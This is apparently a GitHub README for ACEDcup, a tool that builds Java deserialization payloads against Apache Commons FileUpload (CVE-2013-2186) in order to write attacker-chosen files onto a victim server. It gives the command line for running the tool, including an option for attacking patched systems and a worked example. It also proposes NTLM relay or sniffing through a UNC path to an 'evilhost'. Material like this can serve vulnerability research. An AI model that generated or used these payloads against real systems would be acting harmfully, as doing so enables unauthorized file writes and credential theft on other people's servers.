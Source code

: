 # ACEDcup

ACEDcup tool is a payload generator for Java Binary Deserialization attack (ACED)
For Apache Commons FileUpload ver <= 1.3 (CVE-2013-2186) and Oracle JDK ver < 7u40

The attack works even for newer versions of the lib or Java. We can upload any content in any directory, but 
we cannot control a file name in this situation. Hovewer, it may be useful in some cases. 
Also we can perform NTLM-relay/sniffing attack (using \\\\evilhost\\any\\path) if your target is on Windows OS.

## Usage

  java -jar aced_cup.jar /path/payload /path/target /path/out 1
  
  /path/payload - a path to a file with your payload
  /path/target - a path to a file that will be created in your victim
  /path/out - a path to a file with serialized payload
  0 - turn off null-byte ending if you attack a patched system (with null by default)

## Example

 java -jar aced_cup.jar D:\\cup_exploit\\payload.txt /home/user/test/any_name.txt D:\\prj\\SerJava\\cup_exploit\\emp1.ser

